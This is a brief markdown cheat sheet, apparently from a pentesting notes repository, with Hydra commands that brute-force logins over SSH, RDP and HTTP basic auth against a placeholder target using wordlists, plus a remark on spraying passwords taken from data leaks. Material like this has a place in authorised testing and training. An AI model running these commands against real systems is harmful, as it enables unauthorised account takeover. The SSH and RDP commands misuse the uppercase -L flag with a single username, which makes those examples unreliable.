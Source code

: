 ## Hydra

A very good tool for password bruteforcing is hydra.

### SSH

The following attack uses the wordlist.txt file to bruteforce the admin user for SSH login.

```shell
hydra -L admin -P wordlist.txt <target-ip> ssh -t 4
```

If the password is know, It could be used the tecnnique **password spraying** where the passwords remain constant and the username is bruteforced. This is useful if we gain passwords from a dataleak.

### RDP

A RDP attack could be this

```shell
hydra -L Administrator -P wordlist.txt <target-ip> rdp -t 4
```

### HTTP Basic Auth

This works with HTTP basic auth protocol

```shell
hydra -l admin -P rockyou.txt <target-ip> http-get
```